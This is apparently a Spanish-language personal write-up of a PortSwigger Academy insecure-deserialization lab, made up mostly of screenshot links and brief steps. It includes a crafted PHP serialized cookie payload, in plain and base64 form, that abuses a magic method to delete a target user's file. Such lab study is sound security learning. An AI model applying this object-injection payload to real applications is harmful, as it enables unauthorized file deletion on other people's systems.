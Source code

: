 ![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926184054.png]]

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926184821.png]]

la sesion tiene una cookie:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926184943.png]]


verificando el source code:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926185131.png]]


tratando de acceder:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926185242.png]]

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926185304.png]]

enviando esta traza al repeater:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926185411.png]]

agregando al final el caracter ~ por si hay algun archivo de backup en el filesystem:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190150.png]]

la siguiente funcion hace uso de un magic method:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190242.png]]


revisando la cookie de sesion:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190323.png]]

sustituimos por este payload: 

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190502.png]]

O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}

TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d

envio la traza del archivo php con los cambios:

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190658.png]]

![[portswigger_academy/expert/10_insecure_deserial/images/Pasted image 20220926190729.png]]

